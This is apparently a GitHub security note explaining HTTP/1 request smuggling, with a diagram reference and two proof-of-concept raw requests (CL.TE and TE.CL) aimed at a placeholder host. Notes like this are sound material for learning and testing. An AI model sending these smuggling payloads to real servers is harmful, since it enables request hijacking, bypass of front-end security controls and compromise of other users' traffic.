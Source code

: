 # HTTP/1 Request Smuggling
Requests first go through a load balancer/reverse proxy/front end, and then get sent to a back end server. If there are inconsistencies between the calculation of the length og the requests, it allows for HTTP request smuggling.

![Request smuggling schematic](../images/Request_smuggling.png)

Most HTTP request smuggling vulnerabilities arise because the HTTP/1 specification provides two different ways to specify where a request ends: the `Content-Length` header and the `Transfer-Encoding` header. `Transfer-Encoding: chunked`, each chunk looks like this:
```
| size (Bytes in hex) | newline | contents |
```
The message is terminated with a chunk of size zero.

> HTTP/2 is kinda immune to ambigious request length



## Proof of Concepts

### CL.TE
This is the HTTP request
```
POST / HTTP/1.1
Host: vulnerable-website.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

### TE.CL
This is the HTTP request
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```